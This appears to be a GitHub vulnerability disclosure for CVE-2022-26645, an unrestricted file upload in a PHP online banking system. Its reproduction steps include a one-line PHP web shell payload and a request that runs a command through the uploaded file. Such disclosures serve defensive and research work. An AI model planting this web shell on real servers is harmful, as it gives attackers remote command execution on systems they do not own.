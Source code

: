 # Tittle: Online Banking System RCE

## Author: (Erik451)
### Vendor Homepage: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)
### Software Link: [https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html](https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html)
### Version: OBS 1.0
## CVE: [CVE-2022-26645](https://cve.reconshell.com/cve/CVE-2022-26645)
-  Description: Potential RCE and XSS via file upload. A user can use the upload functionality to gain access to the server crafting php code.

####  Steps to reproduce:

-  **1- Go to [http://web.com/admin/?page=user](http://web.com/admin/?page=user)**
-  **2- Modify your avatar profile and upload your php code.**

Payload used: `<?php echo shell_exec($_GET['shell']);?>`

![phpcode](https://user-images.githubusercontent.com/47476901/160638195-898d61e9-4467-4e32-b95c-362c0aecff97.png)



-  **3- We can see the url of the uploaded file clicking on the image zone.**

![upload](https://user-images.githubusercontent.com/47476901/160638239-48088317-ba7f-497a-bfb4-91eb9570eda7.png)

- **4- Going to that url we will execute the code.**

http://<ip_server>/uploads/1648559940_shell.php?shell=id
![rce](https://user-images.githubusercontent.com/47476901/160638221-ec57e5bf-4793-459e-8763-a913e496825b.png)


